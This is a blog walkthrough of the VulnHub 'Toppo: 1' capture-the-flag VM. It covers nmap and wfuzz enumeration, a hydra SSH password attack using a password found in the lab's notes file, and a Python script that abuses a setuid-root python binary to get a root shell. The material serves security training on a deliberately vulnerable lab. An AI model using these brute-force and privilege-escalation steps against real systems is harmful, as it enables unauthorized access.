 ```yaml
---
layout: post
date: 2018-08-17 19:04:17 +0000
title: "Toppo: 1 Walkthrough"
subtitle: "Hakaishin Toppo?"
category: Walkthrough
tags: [VulnHub, Toppo]
comments: true
image:
  feature: toppo-1-walkthrough.jpg
  credit: Thomas-Suisse / Pixabay
  creditlink: https://pixabay.com/en/bomb-background-pattern-explode-1185726/
---
```


This post documents the complete walkthrough of Toppo: 1, a boot2root [VM][1] created by [Hadi Mene][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

There's no backstory for this VM. All we know is that it isn't hard to pwn and doesn't require advanced exploitation. The one "Toppo" I know is a character from Dragon Ball Super–God of Destruction candidate from Universe 11 :laughing:

## Information Gathering

Let’s start with a `nmap` scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.30.130
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 64 OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey:
|   1024 ec:61:97:9f:4d:cb:75:99:59:d4:c1:c4:d4:3e:d9:dc (DSA)
|   2048 89:99:c4:54:9a:18:66:f7:cd:8e:ab:b6:aa:31:2e:c6 (RSA)
|   256 60:be:dd:8f:1a:d7:a3:f3:fe:21:cc:2f:11:30:7b:0d (ECDSA)
|_  256 39:d9:79:26:60:3d:6c:a2:1e:8b:19:71:c0:e2:5e:5f (ED25519)
80/tcp    open  http    syn-ack ttl 64 Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp   open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33198/udp  status
|_  100024  1          58751/tcp  status
58751/tcp open  status  syn-ack ttl 64 1 (RPC #100024)
```

`nmap` finds `22/tcp`, `80/tcp`, `111/tcp`, and `58751/tcp` open. As usual, I'll go for the web one first. Here's how it looks like.

![Clean Blog](/assets/images/posts/toppo-1-walkthrough/460c48a6.png)

## Directory/File Enumeration

I like `wfuzz` a lot. When it's combined with a quality wordlist like the ones in SecLists, you can uncover directories and files that will point you in the next direction.

```
# wfuzz -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 --hc 404 http://192.168.30.130/FUZZ
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.30.130/FUZZ
Total requests: 4593

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

000011:  C=403     11 L	      32 W	    298 Ch	  ".htaccess"
000010:  C=403     11 L	      32 W	    293 Ch	  ".hta"
000012:  C=403     11 L	      32 W	    298 Ch	  ".htpasswd"
000190:  C=200     21 L	     172 W	   1093 Ch	  "LICENSE"
000437:  C=301      9 L	      28 W	    316 Ch	  "admin"
001232:  C=301      9 L	      28 W	    314 Ch	  "css"
002073:  C=301      9 L	      28 W	    314 Ch	  "img"
002094:  C=200    183 L	     465 W	   6437 Ch	  "index.html"
002250:  C=301      9 L	      28 W	    313 Ch	  "js"
002463:  C=301      9 L	      28 W	    315 Ch	  "mail"
002497:  C=301      9 L	      28 W	    317 Ch	  "manual"
003597:  C=403     11 L	      32 W	    302 Ch	  "server-status"
004261:  C=301      9 L	      28 W	    317 Ch	  "vendor"
```

Following the hint in `LICENSE`, it's not long before I found Blackrock Digital's GitHub [repository](https://github.com/BlackrockDigital/startbootstrap-clean-blog) for this BootStrap theme in Google.

![LICENSE](/assets/images/posts/toppo-1-walkthrough/727f2d5a.png)

Everything was identical to those listed in the repository except for `/admin`.

![/admin](/assets/images/posts/toppo-1-walkthrough/4bc414d0.png)

![/admin/notes.txt](/assets/images/posts/toppo-1-walkthrough/532aac6c.png)

## Hail Hydra

I also like `hydra` a lot. It's always my go-to weapon of choice for online password cracking and user validation. Let's give it a shot.

```
# hydra -L usernames.txt -p 12345ted123 -f -e nsr -o hydra.txt -t 4 ssh://192.168.30.130)
[22][ssh] host: 192.168.30.130   login: ted   password: 12345ted123
```

What's in `usernames.txt`, you ask?

```
# cat usernames.txt
root
admin
test
guest
info
adm
mysql
user
administrator
oracle
ftp
toppo
ted
```

I added `toppo` and `ted` for obvious reasons—`toppo` is the name of the VM while `ted` appears in `/admin/notes.txt`.

## Low-Privilege Shell

Now that I have the password of `ted`, let's log in to his SSH account.

![ted](/assets/images/posts/toppo-1-walkthrough/5603610a.png)

## Privilege Escalation

Again, using basic enumeration, I soon found the ticket to privilege escalation.

![python2.7](/assets/images/posts/toppo-1-walkthrough/7558c05c.png)

Since I have a `python` that's `setuid` to `root`, I can write a Python script like this.

<div class="filename"><span>makemeroot.py</span></div>

```python
import os

os.setuid(0)
os.setgid(0)
os.system("/bin/bash")
```

![root](/assets/images/posts/toppo-1-walkthrough/b08a64c9.png)

## Where's the Flag (WTF)

With `root`, getting the flag is trivial.

![Flag](/assets/images/posts/toppo-1-walkthrough/af5a0e51.png)

:dancer:

[1]: https://www.vulnhub.com/entry/toppo-1,245/
[2]: https://twitter.com/@h4d3sw0rm
[3]: https://www.vulnhub.com/
